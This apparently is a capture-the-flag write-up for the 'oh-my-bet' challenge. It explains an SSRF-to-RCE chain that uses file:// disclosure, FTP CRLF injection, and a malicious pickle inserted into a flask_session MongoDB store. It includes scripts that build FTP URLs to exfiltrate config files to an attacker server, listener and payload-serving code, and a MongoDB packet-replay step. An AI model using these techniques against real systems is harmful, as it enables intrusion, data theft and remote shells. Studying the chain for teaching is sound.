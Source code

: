 # oh-my-bet-EN

This is a challege to attack mongo by using FTP to construct SSRF and insert malicious pickle string into mongo, causing rce. The expected attack chain is

```
FTP->mongo->pickle->rce
```

First, in the avatat parameter of the registration page, you can use the file-protocol (`avatar=file:///etc/passwd`) to disclose the source code of the `app.py`. According to `app.py`, we can get `config.py` and `utils.py` and other files. In `utils.py`, we can find function `get_avatar` use `urllib.request.urlopen(path)` to get avatar picture, urllib itself supports FTP protocol (the latest version of Python does not support CLRF for FTP protocol, and the protection for CLRF was updated in an update in 2017. The original intention is to reduce the difficulty of challege. I chose Python 3.6.0, which supports CLRF for FTP protocol directly, but actually many people solved this challege without this feature).Combined with knowing an FTP server, we can first try to attack the FTP server to obtain some configuration information. We can use the following script on our own server to receive the configuration information from the intranet FTP server.

```
import socket

HOST = '0.0.0.0'
PORT = 1890
blocksize = 4096
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            data = conn.recv(blocksize)
            print(data)
            if not data:
                break
    print('end.')
```


And use the following script to generate the ftp url to get the configuration file

```
import urllib.request

# Download file
a = '''CWD files
TYPE I
PORT 1,1,1,1,0,1890   <---- 1,1,1,1 is your vps ip
RETR config.json
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```

According to the analysis of the source code and configuration files, we can find that there are five service containers running in the network. Before starting, the main web server will first request an FTP server with IP address of '172.20.0.2' to obtain the configuration information related to starting. The configuration information includes MySQL service  used for user login and registration, redis service used for caching user's avatar, and the mongodb service used for user session. The app uses `flask_session` to handle the users' session, `flask_session` stores a pickle string to mongo database, and generates session by deserializing the pickle string retrieved from mongo database at login.

So our attack plan has been roughly conceived, sending FTP protocol through urllib, using active mode (port) to let FTP server download a payload from our remote server that can insert a malicious pickle string that can cause rce into mongo, and then send the payload to mongo database by FTP (port), and insert the payload successfully. Finally, take this sessionid to visit the login page, and you can get the shell on your own server (note that there is no bash on the web server, only sh), and execute `/readflag` to get the flag.

Forge a payload inserted into a malicious pickle string to mongo, my choice is to replay the packet caught by wiershark. You can use `pymongo` to simulate sending the method of inserting a pickle string to your local mongo, and then use Wireshark to analyze the TCP flow, copy the raw data  and then use the following script to generate a payload

```
import struct

a = '''your raw data'''.replace('\n', '')

c = b''

def results(s):
    a = [int(s[i:i+2], 16) for i in range(0,len(s),2)]
    return a

z = results(a)

with open("bb2.txt", "wb") as f:
    for x in z:
        s = struct.pack('B', x)
        f.write(s)
```

You can use the following script to generate the url to upload the payload to the FTP server,

```
import urllib.request

# Upload file
a = '''TYPE I
PORT 1,1,1,1,0,1889  <---- 1,1,1,1 is your vps ip
STOR cc2.txt
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```

Set up a file upload service on your own server and wait for the FTP service of Intranet to get the file,

```
import socket

HOST = '0.0.0.0'  
PORT = 1889        
blocksize = 4096
fp = open('bb2.txt', 'rb')
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    print('start listen...')
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            buf = fp.read(blocksize)
            if not buf:
                fp.close()
                break
            conn.sendall(buf)
    print('end.')
```

Finally, the ftp url to attack mongo is generated,

```
import urllib.request

# Attack mongodb
a = '''TYPE I
PORT 172,20,0,5,0,27017
RETR cc2.txt
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```

After successfully inserting the pickle string, you can take sessionid to visit the login page, then you can get the shell on your own server, and finally you can get the flag by executing `/readflag`.